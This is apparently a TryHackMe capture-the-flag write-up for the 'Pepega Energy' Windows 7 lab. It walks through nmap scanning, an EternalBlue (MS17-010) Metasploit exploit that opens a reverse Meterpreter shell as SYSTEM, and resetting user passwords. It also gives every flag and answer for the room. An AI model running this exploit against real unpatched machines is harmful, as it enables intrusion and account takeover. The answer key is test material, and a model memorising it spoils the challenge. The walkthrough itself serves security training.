







# Pepega Energy

A new startup has asked for a security audit: turns out there's only one laptop.

# [Task 1] Rana verde

Congratulations!

You've just landed your first job at a pentesting firm. You've been given your first engagement, ordered by one Zachary Macdonald: CEO of Pepega Energy Ltd. In the brief, Zach states that his young son, Timmy, also uses the network, so that should be a bonanza of bad news. In your blind confidence, you took this engagement on solo.

Time to prove yourself!

(For help connecting to the THM Network, see OpenVPN)

(Machine may take up to 5 minutes to deploy, subscribers get faster deploy times). Please note that this machine does not respond to ping (ICMP).

## #1 - What flag can be found as the standard user?

Nmap reveals the following port:

~~~
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-06-15T18:12:15+00:00; -1s from scanner time.
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5938/tcp  open  teamviewer?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
MAC Address: 02:83:F3:C1:70:0A (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

[REDACTED]

Host script results:
|_clock-skew: mean: -15m00s, deviation: 29m59s, median: -1s
|_nbstat: NetBIOS name: PEPEGAENERGY-01, NetBIOS user: <unknown>, NetBIOS MAC: 02:83:f3:c1:70:0a (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: PepegaEnergy-01
|   NetBIOS computer name: PEPEGAENERGY-01\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-06-15T19:12:10+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-06-15T18:12:10
|_  start_date: 2020-06-15T17:06:14
~~~

Let's check [here](https://svn.nmap.org/nmap/scripts/) what scripts we have for `smb-vuln-*` and perform another scan:

~~~
$ nmap -p 445 --script=smb-vuln-* 10.10.80.255
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-15 20:26 CEST
Nmap scan report for 10.10.80.255
Host is up (0.045s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 5.37 seconds
~~~

The host seems vulnerable to [CVE-2017-0143](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143):

~~~
The SMBv1 server in Microsoft Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold, 1511, and 1607; and Windows Server 2016 allows remote attackers to execute arbitrary code via crafted packets, aka "Windows SMB Remote Code Execution Vulnerability." This vulnerability is different from those described in CVE-2017-0144, CVE-2017-0145, CVE-2017-0146, and CVE-2017-0148.
~~~

Let's fire up `msfconsole` and exploit:

~~~
$ msfconsole -q
msf5 exploit(windows/smb/smb_doublepulsar_rce) > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

msf5 exploit(windows/smb/smb_doublepulsar_rce) > use 2
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.80.255
rhost => 10.10.80.255
msf5 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.8.50.72
lhost => 10.8.50.72
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit 

[*] Started HTTPS reverse handler on https://10.8.50.72:8443
[*] 10.10.80.255:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.80.255:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.80.255:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.80.255:445 - Connecting to target for exploitation.
[+] 10.10.80.255:445 - Connection established for exploitation.
[+] 10.10.80.255:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.80.255:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.80.255:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.80.255:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.80.255:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.80.255:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.80.255:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.80.255:445 - Sending all but last fragment of exploit packet
[*] 10.10.80.255:445 - Starting non-paged pool grooming
[+] 10.10.80.255:445 - Sending SMBv2 buffers
[+] 10.10.80.255:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.80.255:445 - Sending final SMBv2 buffers.
[*] 10.10.80.255:445 - Sending last fragment of exploit packet!
[*] 10.10.80.255:445 - Receiving response from exploit packet
[+] 10.10.80.255:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.80.255:445 - Sending egg to corrupted connection.
[*] 10.10.80.255:445 - Triggering free of corrupted buffer.
[*] https://10.8.50.72:8443 handling request from 10.10.80.255; (UUID: edmt3bfs) Staging x64 payload (202329 bytes) ...
[*] Meterpreter session 1 opened (10.8.50.72:8443 -> 10.10.80.255:49193) at 2020-06-15 20:38:13 +0200

[+] 10.10.80.255:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.80.255:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.80.255:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
~~~

Now let's get a shell:

~~~
meterpreter > shell 
Process 1216 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\users\zachary\desktop>
~~~

List existing users:

~~~
C:\users\zachary\desktop>net user	
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    Timmy                    
Zachary                  
The command completed with one or more errors.

C:\users\zachary\desktop>
~~~

Let's check if Timmy can access RDP:

~~~
C:\users\zachary\desktop>net user timmy
net user timmy
User name                    Timmy
Full Name                    Timmy
Comment                      
User's comment               
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/4/2020 9:52:07 PM
Password expires             Never
Password changeable          2/4/2020 9:52:07 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   6/15/2020 6:05:27 PM

Logon hours allowed          All

Local Group Memberships      *Remote Desktop Users *Users                
Global Group memberships     *None                 
The command completed successfully.

C:\users\zachary\desktop>net user zachary
net user zachary
User name                    Zachary
Full Name                    
Comment                      
User's comment               
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/15/2020 9:40:59 PM
Password expires             Never
Password changeable          6/15/2020 9:40:59 PM
Password required            No
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   6/15/2020 9:41:15 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       
Global Group memberships     *None                 
The command completed successfully.
~~~

Timmy has RDP privileges but not Zachary. But Zachary is administrator. Anyway, let's connect as Timmy for now. As we have administrator privileges, we can change Timmy's and Zachary's password. Let's set them both to `pepega`:

~~~
C:\users\zachary\desktop>net user timmy pepega
net user timmy pepega
The command completed successfully.

C:\users\zachary\desktop>net user timmy pepega
net user timmy pepega
The command completed successfully.
~~~

Now, let's connect with Remmnina as Timmy and get the flag:

User flag: `THM{S34_Sh4nty_11}`

## #2 - What flag can be found as the admin user?

Root flag: `THM{Tr0bl3d_M4n}`

## #3 - What skillcape was Timmy looking into?

*Hint: The most tedious skill to get 99 in*

Connect in RDP as Timmy with the password we have defined (`pepega`) earlier and open Firefox. Fire up the history (Ctrl+H) to disclose the previous searches. Several Google searches where made about `runecrafting skillcape`. 

Answer: `runecrafting`

## #4 - What font is used in Timmy's important document?

*Hint: Best font of 2012*

On Timmy's desktop, there is a document named `home work.rtf` that contains the answer, that is mispelled.

Answer: `impact`

## #5 - What does Timmy want to be when he's older?

*Hint: Correct spelling please (Timmy's trying his hardest)*

Still on Timmy's desktop, there is a document named `home work.rtf` that contains the answer, that is mispelled.

Answer: `astronaut`

## #6 - What did Zachary call his wife?

*Hint: Lowercase, as found on the box*

On Zachary's desktop, there is a directory named `Work Documents` that contains a file named `To-Do List.rtf`. One of the to-do task is to divorce Sandra, the `cheating witch`.

Answer: `cheating witch`

## #7 - Where does Zachary's Graphic Designer work?

*Hint: Zachary has *cheap* taste*

Still on the `Work Documents` directory, there is another file named `Email Backup - Mockup.rtf` that discloses the name of the graphic designer.

Answer: `fiverr`

## #8 - Where is Zachary looking at travelling to?

*Hint: LADS LADS LADS*

Open firefox on Zachary's desktop and fire up the history (Ctrl+H). One of the search was about `megaluf weekender`.

Answer: `magaluf`